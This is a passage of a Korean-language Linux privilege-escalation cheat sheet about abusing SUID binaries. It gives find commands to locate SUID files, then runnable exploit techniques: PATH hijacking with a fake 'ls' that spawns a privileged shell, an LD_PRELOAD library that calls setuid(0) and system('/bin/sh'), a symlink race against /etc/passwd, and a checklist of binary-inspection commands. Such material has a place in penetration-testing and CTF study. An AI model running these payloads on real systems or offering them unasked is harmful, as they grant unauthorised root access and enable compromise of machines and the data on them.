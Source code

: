 ```bash
find / -type f -perm -4000 -mmin -1440 2>/dev/null

# 10. 숨겨진 SUID 파일들
find / -type f -name ".*" -perm -4000 2>/dev/null
```

### 🔍 고급 SUID 익스플로잇 기법

```bash
# 1. 환경 변수 조작 (PATH 하이재킹)
export PATH=/tmp:$PATH
echo '#!/bin/bash\n/bin/sh -p' > /tmp/ls
chmod +x /tmp/ls
# SUID 바이너리가 ls를 호출하면 우리 스크립트 실행

# 2. LD_PRELOAD 라이브러리 하이재킹
echo 'void _init() { setuid(0); system("/bin/sh"); }' > /tmp/lib.c
gcc -fPIC -shared -o /tmp/lib.so /tmp/lib.c -nostartfiles
export LD_PRELOAD=/tmp/lib.so
# SUID 바이너리 실행

# 3. 함수 라이브러리 하이재킹
nm -D /usr/bin/suid_binary | grep " U " # 사용하는 함수 확인
# 해당 함수를 덮어쓰는 라이브러리 생성

# 4. 레이스 컨디션 (TOCTOU)
while true; do
    ln -sf /etc/passwd /tmp/target 2>/dev/null
    ln -sf /tmp/evil /tmp/target 2>/dev/null
done &
# SUID 바이너리가 /tmp/target 사용시

# 5. 심볼릭 링크 공격
ln -sf /etc/passwd /tmp/link
# SUID 바이너리가 심볼릭 링크를 따라가도록 유도
```

### ⚡ 응급상황 체크리스트 (모든 것이 안될 때)

```bash
# 1. SUID 바이너리 실행시 오류 메시지 확인
strace /usr/bin/suid_binary 2>&1 | grep -E "(ENOENT|access|open)"

# 2. 바이너리의 문자열 분석
strings /usr/bin/suid_binary | grep -E "(sh|bash|system|exec|PATH|tmp)"

# 3. 실행 권한 재확인
ls -la /usr/bin/suid_binary

# 4. 바이너리가 호출하는 다른 프로그램들
ltrace /usr/bin/suid_binary 2>&1 | grep exec

# 5. 파일 종류 재확인 (ELF 바이너리인지 스크립트인지)
file /usr/bin/suid_binary

# 6. 다른 사용자의 SUID 파일들
find / -type f -perm -4000 ! -user root 2>/dev/null

# 7. 그룹 쓰기 가능한 SUID 파일들
find / -type f -perm -4000 -perm -20 2>/dev/null

# 8. capabilities가 설정된 파일들 (SUID 대안)
getcap -r / 2>/dev/null | grep -v "= $"

```